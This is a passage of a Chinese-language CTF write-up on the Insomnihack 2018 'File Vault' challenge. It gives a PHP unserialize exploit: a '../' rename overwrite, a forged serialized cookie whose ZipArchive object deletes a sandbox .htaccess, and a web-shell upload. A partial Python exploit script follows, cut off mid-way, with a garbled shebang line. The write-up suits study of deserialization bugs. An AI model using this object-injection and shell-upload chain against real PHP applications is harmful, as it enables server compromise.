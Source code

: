 接下来对第一个VaultFile-&gt;fakename进行重命名：

```
newname = "../" * 115 # To overwrite fakename #2
rename(0, newname)
```

最后，我们会收到如下Cookie：

```
a:2:`{`i:0;O:9:"VaultFile":2:`{`s:8:"fakename";s:345:"./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";`}`i:1;O:9:"VaultFile":2:`{`s:8:"fakename";s:245:"";s:1:"e";s:0:"";`}`i:2;O:10:"ZipArchive":7:`{`s:8:"fakename";s:58:"sandbox/ea35676a8bfa0eeaac525ae05ab7fa2cce6616e2/.htaccess";s:8:"realname";s:1:"9";s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:67:"";s:8:"realname";s:44:"911aaba06e0a1f2c3c8072f3390db020d7c82b7a.txt";`}``}`6f72e63954ac6e08c3ebc6e4abdff60956a82d9ebc556873410c9ef456098b69
```

上传Shell（由于.htaccess文件还没有被删除，所以它不会被执行）：

[![](https://corb3nik.github.io/assets/img/insomnihack-teaser-2018/before_shell.png)](https://corb3nik.github.io/assets/img/insomnihack-teaser-2018/before_shell.png)

借助Unserialize()对Cookie进行反序列化，并触发ZipArchive-&gt;open()函数调用：

[![](https://corb3nik.github.io/assets/img/insomnihack-teaser-2018/delete_htaccess.png)](https://corb3nik.github.io/assets/img/insomnihack-teaser-2018/delete_htaccess.png)

最后，再次访问Shell：

[![](https://corb3nik.github.io/assets/img/insomnihack-teaser-2018/after_shell.png)](https://corb3nik.github.io/assets/img/insomnihack-teaser-2018/after_shell.png)

得到Flag：INS`{`gr4tz_f0r_y0ur_uns3ri4l1z1ng_tal3nts`}`



## 源代码

以下是我的完整Python源代码：

```
#!/usr/bin/env pyth#!/usr/bin/env python2

import requests
import urllib

URL = "http://filevault.teaser.insomnihack.ch/"
s = requests.Session()

def upload(name, content="GARBAGE"):
    files = `{`'vault_file': (name, content)`}`
    params = `{` "action" : "upload" `}`
    s.post(URL, params=params, files=files)

def rename(index, new_name):
    data = `{` "newname" : new_name `}`
    params = `{`
        "action" : "changename",
        "i" : index
    `}`
    s.post(URL, params=params, data=data)

def open_file(index):
    params = `{`
        "action" : "open",
        "i" : index
    `}`
```